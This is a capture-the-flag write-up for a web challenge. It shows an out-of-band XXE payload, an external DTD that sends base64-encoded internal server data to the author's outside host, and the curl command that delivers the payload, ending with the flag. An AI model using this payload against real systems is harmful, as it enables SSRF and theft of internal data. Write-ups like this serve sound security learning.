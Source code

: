# Secret Recipe 2

```
Another login page... however it seems that the developers learned from their last mistake.

http://challenges.tacocon.party:8123
*Please no brute-forcing... this will get you nowhere.
```

This website has two fields with a "Check stock" on it. It's probably dumb luck that I tried "admin" "admin" in the two fields and received the following message:

```
Hello Admin!

Remember, instead of showing the secret recipe here we moved it to that server on the local network (secret_server).

We are stepping up our security! We can't have our secret sauce being potentially exposed to everyone!
```

Interesting...a "secret_server"? How am i supposed to access that? Well, looking at how the web request happens, it's actually sending a request to check_login.php with a payload of "<creds><user>admin</user><pass>admin</pass></creds>"

It took me a while to realize that you can exploite the XML parser that parses these types of payloads. This is called an XXE. I created a payload containing the following:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=http://secret_server/data/secret.json">
  <!ENTITY % dtd SYSTEM "http://alexloney.com/oob.dtd">

%dtd;
%all;
%req;
]>
<creds>
    <user>admin</user>
    <pass>admin</pass>
    <foo>&xxe;</foo>
</creds>
```

Along with a file on my website located at "http://alexloney.com/oob.dtd" which contained the following:

```
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'http://alexloney.com/xss.php?%file;'>"> 
```

And sent the original payload with the following:

```
curl -d @xxe.xml 'http://challenges.tacocon.party:8123/check_login.php' 
```

Now, I'm making this sound a LOT easier than it actually was. In reality, it took me a long time and a lot of googling to figure out the XXE payload structure and usage. Furthermore, I was receiving a lot of errors with the secure_server not being formatted correctly for XML or the URI not being formatted correctly to send the data back.

I had to eventually figure out how to invoke PHP to base64 encode the returned data from secure_server and send that back. I then had to repeat this attack a few times as it was listing the directories to find the correct path on the secure_server. So I'd request a page, receive the base64 webpage, decode it and figure out the next path. I eventually figured out the full path and received the following flag.

```
Tacocon{SSRFisPrettyNeat&SoAreTacos}
```
